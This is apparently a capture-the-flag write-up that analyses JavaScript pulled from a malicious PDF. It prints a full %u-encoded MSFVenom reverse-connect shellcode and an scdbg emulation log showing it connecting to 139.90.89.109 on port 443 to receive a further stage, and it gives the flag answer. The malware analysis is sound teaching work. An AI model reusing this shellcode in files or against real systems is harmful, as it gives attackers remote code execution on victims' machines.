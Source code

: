 # JS

> **Challenge Description:** The analyst team has extracted a code from a JS file for us from a malicious PDF. Please analyze the code and provide us the IP and port that it connects to.
>
> **Flag Format:** `ihack{IP:PORT}`
>
> **Hint:** Payload is generated using MSFVenom

### Solution

At first glance, the payload is Unicode encoded due to the appearance of `%u`. 

````
%ue8fc%u008f%u0000%u8960%u31e5%u64d2%u528b%u8b30%u0c52%u528b%u3114%u0fff%u4ab7%u8b26%u2872%uc031%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%u7549%u52ef%u528b%u5710%u428b%u013c%u8bd0%u7840%uc085%u4c74%ud001%u488b%u8b18%u2058%ud301%u8550%u74c9%u493c%u348b%u318b%u01ff%u31d6%uc1c0%u0dcf%u01ac%u38c7%u75e0%u03f4%uf87d%u7d3b%u7524%u58e0%u588b%u0124%u66d3%u0c8b%u8b4b%u1c58%ud301%u048b%u018b%u89d0%u2444%u5b24%u615b%u5a59%uff51%u58e0%u5a5f%u128b%u80e9%uffff%u5dff%u3368%u0032%u6800%u7377%u5f32%u6854%u774c%u0726%ue889%ud0ff%u90b8%u0001%u2900%u54c4%u6850%u8029%u006b%ud5ff%u0a6a%u8b68%u595a%u686d%u0002%ubb01%ue689%u5050%u5050%u5040%u5040%uea68%udf0f%uffe0%u97d5%u106a%u5756%u9968%u74a5%uff61%u85d5%u74c0%uff0a%u084e%uec75%u67e8%u0000%u6a00%u6a00%u5604%u6857%ud902%u5fc8%ud5ff%uf883%u7e00%u8b36%u6a36%u6840%u1000%u0000%u6a56%u6800%ua458%ue553%ud5ff%u5393%u006a%u5356%u6857%ud902%u5fc8%ud5ff%uf883%u7d00%u5828%u0068%u0040%u6a00%u5000%u0b68%u0f2f%uff30%u57d5%u7568%u4d6e%uff61%u5ed5%uff5e%u240c%u850f%uff70%uffff%u9be9%uffff%u01ff%u29c3%u75c6%uc3c1%uf0bb%ua2b5%u6a56%u5300%ud5ff
````

However, the payload was actually generated by MSFVenom using the format `js_le`. Analyze the shellcode in `scdbg` to reveal the IP address and port.

```
Loaded 426 bytes from file C:\Users\JesusCries\Desktop\js-extracted.js
Detected %u encoding input format converting...
to bin..
Byte Swapping %u encoded input buffer..
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

4010aa  LoadLibraryA(ws2_32)
4010ba  WSAStartup(190)
4010d7  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
4010e3  connect(h=42, host: 139.90.89.109 , port: 443 ) = 71ab4a07
4010fe  recv(h=42, buf=12fc5c, len=4, fl=0)
401141  closesocket(h=42)
4010d7  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)

Stepcount 2000001
```

**Flag:** `ihack{139.90.89.109:443}`
